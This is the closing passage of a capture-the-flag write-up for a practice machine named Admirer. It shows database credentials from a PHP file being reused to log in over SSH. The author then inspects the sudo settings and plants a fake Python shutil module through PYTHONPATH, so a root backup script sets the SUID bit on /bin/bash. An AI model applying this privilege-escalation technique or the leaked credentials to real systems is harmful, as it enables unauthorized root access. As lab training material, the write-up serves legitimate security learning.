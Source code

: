 Inside that file, I found again credentials for a database but the password is different. I tried it in SSH and we are in!

```php
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

## Pwned!

Check this, maybe we can abuse this `sudo` configuration.

```bash
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

Can't abuse path injection in the script but I noticed it is calling a python script in one of the options:

```
backup_web() --> /opt/scripts/backup.py
```

Checking the Python script I can try to inject a custom `make_archive` funtion modifying `PYTHONPATH` variable.

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

I created this little Python script, the idea is that the website backup task will run this code instead of the intended one and make the `/bin/bash` binary a SUID binary.

```bash
waldo@admirer:~$ cat shutil.py 
import os

def make_archive(param1, param2, param3):
	os.system('chmod u+s /bin/bash')
```
